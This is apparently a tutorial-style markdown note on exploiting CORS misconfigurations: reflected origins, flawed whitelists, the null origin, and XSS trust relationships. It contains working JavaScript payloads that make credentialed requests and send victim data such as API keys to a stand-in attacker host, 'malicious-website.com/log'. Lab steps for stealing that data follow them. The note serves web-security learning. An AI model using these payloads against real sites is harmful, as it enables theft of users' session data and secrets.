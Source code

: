# Methods to exploit CORS.


## Server-generated ACAO header from client-specified Origin header

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```javascript
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-domain requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
}; 
```

>  CORS vulnerability with basic origin reflection

1. Check if the request responses with "Access-Control-Allow-Credential" if it's true then move on to next step.
2. Send the request to the "Repeater" and add header of your exploit server "Origin: https://www.exploit.com"
3. Now craft your javascript file in the exploit server and exploit it to get user APIs key or sensotive information.


## Errors parsing Origin headers

- Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. For example, the application receives a normal request like:

```javascript
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
- The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```javascript
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

- Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

- For example, suppose an application grants access to all domains ending in:

> normal-website.com

- An attacker might be able to gain access by registering the domain:

> hackersnormal-website.com

- Alternatively, suppose an application grants access to all domains beginning with

> normal-website.com

- An attacker might be able to gain access using the domain:

> normal-website.com.evil-user.net 


### Whitelisted null origin value

- The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

    - Cross-site redirects.
    - Requests from serialized data.
    - Request using the file: protocol.
    - Sandboxed cross-origin requests.

- Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-domain request:

```javascript
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

- And the server responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

- In this situation, an attacker can use various tricks to generate a cross-domain request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe> 
```

### CORS vulnerability with trusted null origin
1.check for CORS By checking "Access-Control-Allow-Credential: true" if yes then,
2.Send the request to repeater and add a Header "Origin:null".
3.Craft Javascript code and send the request to the victim's server and get the sensitive information.



## Exploiting XSS via CORS trust relationships 

- Even "correctly" configured CORS establishes a trust relationship between two origins. If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

> Given the following request:

```javascript
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

> If the server responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
- Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:

```https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>```

